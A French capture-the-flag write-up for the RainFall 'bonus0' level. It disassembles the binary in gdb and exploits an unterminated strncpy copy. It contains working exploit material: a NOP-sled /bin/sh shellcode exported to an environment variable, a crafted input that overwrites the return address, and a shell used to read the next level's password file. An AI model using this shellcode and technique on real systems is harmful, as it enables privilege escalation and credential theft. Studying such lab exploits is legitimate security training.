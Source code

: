 En desassemblant le code avec gdb on voit que l'on a un read avec un buffer de 4096 suivi d'un strncpy avec un len de 20.

```gdb
   0x080484d0 <+28>:	lea    eax,[ebp-0x1008]
   0x080484d6 <+34>:	mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:	mov    DWORD PTR [esp],0x0
=> 0x080484e1 <+45>:	call   0x8048380 <read@plt>
...
...
   0x08048505 <+81>:	mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>:	mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>:	mov    DWORD PTR [esp],eax
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
```

Strncpy a la particularité de ne pas ajouter de '\0' a la fin de la chaine copié si le buffer est plus long que la len passer en arguments.

A partir de la c'est facile.

On exporte un Shellcode avec des NOP pour augmenter les chances de tomber dessus

```bash
export SC=$(python -c "print('\x90' * 100 + '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80')")
``

Il nous reste plus qu'a trouver l'adresse de la variable d'environnement SC == 0xbffffe9a

Premier read == 'B' * 4095 + '\n' == 4096 octets écrits
Deuxieme read == 'AAAAAAAAA' + '\x9a\xfe\xff\xbf' + 'CCCCCCCCC' == 20

```bash
bonus0@RainFall:~$ python -c "print('B' * 4095 + '\n' + 'BCDEFGHIJ' + '\x9a\xfe\xff\xbf' + 'CCCCCCC')" > /tmp/bonus0.txt
bonus0@RainFall:~$ cat /tmp/bonus0.txt - | ./bonus0
 -
 -
BBBBBBBBBBBBBBBBBBBBBCDEFGHIJ����CCCCCCC�� BCDEFGHIJ����CCCCCCC��
ls
ls: cannot open directory .: Permission denied
cat /home/user/bonus1/.pass
...
```
